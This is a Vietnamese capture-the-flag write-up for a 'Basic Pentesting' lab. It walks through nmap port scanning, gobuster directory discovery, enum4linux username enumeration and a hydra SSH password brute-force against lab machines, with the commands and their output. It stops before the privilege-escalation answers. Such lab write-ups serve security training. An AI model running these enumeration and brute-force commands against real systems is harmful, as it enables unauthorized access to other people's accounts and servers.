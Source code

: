 # Basic Pentesting
## Deploy the machine and connect to our network:

    Done

## Find the services exposed by the machine:

    Done

## What is the name of the hidden directory on the web server: 

Dùng **nmap** để quét các cổng và dịch vụ đang chạy trên web server.

```
$ nmap -sC -sV -oN nmap/scan_result <IP>
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  �GM�U      Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13?
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http-proxy
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-10-15T17:33:47
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-10-15T13:33:47-04:00
|_clock-skew: mean: 1h20m02s, deviation: 2h18m34s, median: 2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 278.21 seconds
```

Ta thấy được có 4 cổng đang mở và có 1 cổng khá đặc biệt đó là 8009, cái này có một cve liên quan đến dịch vụ ajp(note lại thôi=))).

Để xem các thư mục ẩn thì cách đơn giản nhất là vét cạn nó, **gobuster** thôi. (gobuster sẽ gửi các request đến trang web, sau đó dựa vào response của nó để xem có thư mục đó tồn tại hay không).

```
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u 10.10.106.148             
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.106.148
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/.htpasswd            (Status: 403) [Size: 297]
/development          (Status: 301) [Size: 320] [--> http://10.10.106.148/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 301]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Với status 403 là status không thể truy cập, tuy nhiên có 2 cái **/development** và **/index.html** có thể vào đc.

![img/image2.png](img/image2.png)

Vậy thư mục ẩn ở đây là **/development**

## User brute-forcing to find the username & password: 
    Done
## What is the username?
Answer format: ***

Với username ta có thể dùng 1 công cụ khá mạnh(vét hơi lâu) là enum4linux để brute-forcing username trong wordlists

```
enum4linux -a 10.10.14.230
```

Với 1 chút kiên nhẫn ( khoảng 10p :) ) thì ta sẽ thu được các username sau:
![img/image3.png](img/image3.png)

Thử 1 trong 2 và được user là **jan**
## What is the password?
Answer format: *******

Tiếp tục dùng cả thanh xuân để brute-forcing, lần này là password, dùng một tool khác tên là **hydra**
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.14.230
```

## What service do you use to access the server(answer in abbreviation in all caps)?
Answer format: ***
## Enumerate the machine to find any vectors for privilege escalation
No answer needed
## What is the name of the other user you found(all lower case)?
Answer format: ***
## If you have found another user, what can you do with this information?
No answer needed
## What is the final password you obtain?